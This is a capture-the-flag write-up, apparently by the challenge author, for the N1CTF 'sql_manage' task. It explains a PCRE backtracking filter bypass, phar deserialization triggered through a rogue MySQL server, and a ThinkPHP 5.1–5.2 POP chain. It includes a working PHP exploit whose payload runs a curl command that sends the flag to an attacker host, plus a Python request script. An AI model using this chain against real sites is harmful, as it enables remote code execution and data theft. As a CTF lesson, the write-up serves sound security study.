### 前言
准备了好久的N1CTF终于结束了，师傅们都在很用心的出题和运维，然而还是出了不少事故，希望大佬们体谅一下orz!
膜@wonderkun师傅的非预期链（感觉大佬们都不想做我这道题，可能出的太烂了。）
这道题出题思路来自于[TSec 2019 议题 PPT：Comprehensive analysis of the mysql client attack chain](https://paper.seebug.org/998/)，但是核心还是tp5.2反序列化POP链挖掘(预期可以通杀5.1.x和5.2.x)。

### 正则回溯
这个点p牛在`codebreaking`已经出过题了，没想到还是难到了一大堆人。具体可以看p牛的文章
[https://www.leavesongs.com/PENETRATION/use-pcre-backtrack-limit-to-bypass-restrict.html](https://www.leavesongs.com/PENETRATION/use-pcre-backtrack-limit-to-bypass-restrict.html)
题目的正则

```php
if(preg_match('/sleep|BENCHMARK|processlist|GET_LOCK|information_schema|into.+?outfile|into.+?dumpfile|\/\*.*\*\//is', $query)) {
    die('Go out!!!');
}
```
使用`select xx into/*1000000个a*/dumpfile;`即可绕过。

### Mysql Phar反序列化
很早之前@zsx师傅在文章[Phar与Stream Wrapper造成PHP RCE的深入挖掘](https://xz.aliyun.com/t/2958)中提到了本地mysql `LOAD DATA LOCAL INFILE`可以触发phar反序列化。

这里提到了本地受限于这两个配置
```
[mysqld]
local-infile=1
secure_file_priv=""
```
但其实还受限于`open_basedir`

这其实也就是用`Rogue Mysql Server`只能读到`/tmp/`目录下文件的原因。
另外mysql用户还需要拥有`insert`权限，否则会执行报错，因此在题目中直接直接执行`LOAD DATA LOCAL INFILE`去触发phar反序列化是不行的。

@LoRexxar'师傅在今年的Tsec上分享的议题[https://paper.seebug.org/998/](https://paper.seebug.org/998/)中提到了mysql客户端任意文件读取可以配合上面的trick来进行phar反序列化。因为其原理就是当`Mysql Client`向`Rogue Mysql Server`发送任意查询语句时，`Rogue Mysql Server`可以回复一个包含想要读取文件名的`file-transfer`请求，让`Mysql Client`执行`LOAD DATA LOCAL INFILE`语句把文件读取出来并发送给`Rogue Mysql Server`。此时我们把文件名格式改为`phar://filename`，让其执行`LOAD DATA LOCAL INFILE`语句即可触发phar反序列化。

ps:其实@zedd师傅在SUCTF出的题目`Upload Labs 2`中的预期解就是这个，他也发了文章[https://xz.aliyun.com/t/6057#toc-6](https://xz.aliyun.com/t/6057#toc-6)，当时我还想着跟我出的题撞了，没想到还是有很多人不知道,orz。

### TP5.1.x-5.2.x反序列化POP链分析
因为`Laravel`的反序列化链实在太多了，而thinkphp的基本没有人提到过，只有前段时间的一篇文章[挖掘暗藏ThinkPHP中的反序列利用链](https://blog.riskivy.com/挖掘暗藏thinkphp中的反序列利用链/?from=timeline&isappinstalled=0)，所以我就尝试挖了一下tp5.1的。
原本想的是挖一条全新的链，但是仔细看了下发现入口点只能找到文章中提到的那个地方，所以就想着利用这个入口再挖一条，最后挖到了一条可以通杀tp5.1.x-5.2.x的，因为tp5.1的文章中已经公开了思路，所以这里就拿tp5.2出了题。
首先是入口点
`think\process\pipes\windows`


`file_exists`可以触发`__toString`方法


全局搜索`__toString`方法，跟进`think\model\concern\Conversion`

查看其`toJson`方法,继续跟进`toArray`方法。


在这里文章用`$relation->visible($name);`来触发`Request`类的`__call`方法，但是tp5.2中这个方法被删掉了。


我们来看一下`getAttr`方法


跟进`getValue`，漏洞点在这里。

我们依次回溯下`$closure，$value，$this->data`
`$closure = $this->withAttr[$fieldName];`，`$this->withAttr`我们可控，看下`$fieldName = $this->getRealFieldName($name);`
跟进`getRealFieldName`

`$strict`默认为true，所以传入的字符串会原样返回。

传入的是`$name`，也是`getAttr`的参数`$key`，也是`$data`的键名。`$data`是`$this->data, $this->relation`合并的结果，因此`$closure`我们可控。


再来看`$value`，跟进`getData`方法。

如果`$this->data`存在`$fieldName`键名，则返回对应的键值，根据上面的分析我们刚好可以进入这个if中，而`$value`的返回值就是`$closure`对应的键值，因此`$value`我们也可控。

回头看一下漏洞点，`$closure,$value`我们都可控，而`$this->data`是一个我们用来控制`$closure,$value`返回值的数组。


此时我们可以怎么利用呢？
Example:


其他的利用函数我并没有仔细去找，有兴趣的师傅可以找找看。

exp:
这个exp是我对着tp5.1的源码构造的可能和5.2有点不太一样，但是可以直接用。

```php
<?php
namespace think\process\pipes {
    class Windows
    {
        private $files;
        public function __construct($files)
        {
            $this->files = array($files);
        }
    }
}

namespace think\model\concern {
    trait Conversion
    {
        protected $append = array("Smi1e" => "1");
    }

    trait Attribute
    {
        private $data;
        private $withAttr = array("Smi1e" => "system");

        public function get($system)
        {
            $this->data = array("Smi1e" => "$system");
        }
    }
}
namespace think {
    abstract class Model
    {
        use model\concern\Attribute;
        use model\concern\Conversion;
    }
}

namespace think\model{
    use think\Model;
    class Pivot extends Model
    {
        public function __construct($system)
        {
            $this->get($system);
        }
    }
}

namespace {
    $Conver = new think\model\Pivot("curl http://vps/ -d '`tac /flag`';");
    $payload = new think\process\pipes\Windows($Conver);
    @unlink("phar.phar");
    $phar = new Phar("phar.phar"); //后缀名必须为phar
    $phar->startBuffering();
    $phar->setStub("GIF89a<?php __HALT_COMPILER(); ?>"); //设置stub
    $phar->setMetadata($payload); //将自定义的meta-data存入manifest
    $phar->addFromString("test.txt", "test"); //添加要压缩的文件
    //签名自动计算
    $phar->stopBuffering();
    echo urlencode(serialize($payload));
}
?>
```

### sql_manage
首先在源码的配置文件中找到mysql的用户名和密码

查看可写目录

构造phar文件，使用正则回溯绕过限制写文件

```php
if(preg_match('/sleep|BENCHMARK|processlist|GET_LOCK|information_schema|into.+?outfile|into.+?dumpfile|\/\*.*\*\//is', $query)) {
        die('Go out!!!');
 }
```

```python
#coding=utf-8
import requests
url = "http://47.91.213.248:8001/query"
a = 'a'*1000000
data = {
    "query": "select 0x123456 into/*{}*/dumpfile '/tmp/smi1e123.phar';".format(a),
    "code": "nuk9"
}
cookie = {
    "PHPSESSID":"ik01ngjcquttltalvf7vk6aqap"
}

print(requests.post(url=url,data=data,cookies=cookie).text)
```
`load_file`一下可以看到写入成功

使用这个项目[https://github.com/Gifts/Rogue-MySql-Server](https://github.com/Gifts/Rogue-MySql-Server) 把文件名改为phar格式

host改为`Rogue-MySql-Server`地址，用户名密码随意。 

服务端nc，然后执行任意sql语句触发phar反序列化即可收到flag。


### 后记
由于撞车ByteCTF和TMCTF，并没有很多师傅在刚这道题orz。出题时也踩了不少坑，emmm虽然这个题目出的很烂但是还是想说出题不易，希望师傅们认真对待。